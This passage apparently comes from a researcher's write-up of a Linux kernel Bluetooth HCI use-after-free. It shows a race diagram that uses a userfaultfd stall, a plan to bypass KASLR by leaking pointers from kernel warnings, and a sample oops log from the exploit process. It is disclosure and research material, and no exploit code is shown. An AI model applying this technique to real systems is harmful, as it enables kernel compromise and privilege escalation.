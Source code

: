 ```
hci_sock_bound_ioctl thread    |    hci_unregister_dev thread
                               |
                               |
if (!hdev)                     |    
    return -EBADFD;            |    
                               |
copy_from_user()               |
____________________________   |
                               |
                               |    hci_pi(sk)->hdev = NULL;
                               |    ...
    userfaultfd hang           |    hci_dev_put(hdev);
                               |    ...
                               |    hci_free_dev(hdev);
____________________________   |
// UAF, for example            |
hci_dev_lock(hdev);            |
                               |
                               |
```

Therefore, with this stable UAF, let's write our exploit.

> To be honest, this is my first time to write one 0-day exploit. Thankfully, this makes no big difference comparing to a CTF challenge.
> BTW, the hci_sock_bound_ioctl() has limited operations hence I choose the hci_sock_sendmsg() as the USING routine in my exploits.

### Leaking

The first question is how to bypass the KASLR. I have been blocked there for a while as I wanted to leak some code/data pointers with some known skills. Like the [OOB read](https://marc.info/?l=linux-bluetooth&m=162174982523451&w=2) in bluetooth I have reported to the community.

After some fail attempts, I choose to do the leaking with the Blue Klotski and it turns out to be totally enough. I just have to find some place that may trigger a kernel WARNING and I can get the pointers I wanted from the printed report.

For instance, one NPD in the workqueue functions.

```
[   17.793908] BUG: kernel NULL pointer dereference, address: 0000000000000000
[   17.794222] #PF: supervisor read access in kernel mode
[   17.794405] #PF: error_code(0x0000) - not-present page
[   17.794637] PGD 0 P4D 0
[   17.794816] Oops: 0000 [#1] SMP NOPTI
[   17.795043] CPU: 0 PID: 119 Comm: exploit Not tainted 5.12.1 #18
[   17.795217] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS rel-1.14.0-0-g155821a1990b-prebuilt.qemu.org 04/01/2014
[   17.795543] RIP: 0010:__queue_work+0xb2/0x3b0
[   17.795728] Code: 8b 03 eb 2f 83 7c 24 04 40 0f 84 ab 01 00 00 49 63 c4 49 8b 9d 08 01 00 00 49 03 1c c6 4c 89 ff e8 73 fb ff ff 48 85 c0 74 d5 <48> 39 030
[   17.796191] RSP: 0018:ffffac4d8021fc20 EFLAGS: 00000086
[   17.796329] RAX: ffff9db3013af400 RBX: 0000000000000000 RCX: 0000000000000000
[   17.796545] RDX: 0000000000000000 RSI: 0000000000000003 RDI: ffffffffbdc4cf10
[   17.796769] RBP: 000000000000000d R08: ffff9db301400040 R09: ffff9db301400000
[   17.796926] R10: 0000000000000000 R11: ffffffffbdc4cf18 R12: 0000000000000000
[   17.797109] R13: ffff9db3021b4c00 R14: ffffffffbdb106a0 R15: ffff9db302260860
[   17.797328] FS:  00007fa9edf9d740(0000) GS:ffff9db33ec00000(0000) knlGS:0000000000000000
[   17.797541] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   17.797699] CR2: 0000000000000000 CR3: 000000000225c000 CR4: 00000000001006f0
[   17.797939] Call Trace:
[   17.798694]  queue_work_on+0x1b/0x30
[   17.798865]  hci_sock_sendmsg+0x3bc/0x960
[   17.798973]  sock_sendmsg+0x56/0x60
[   17.799081]  sock_write_iter+0x92/0xf0
```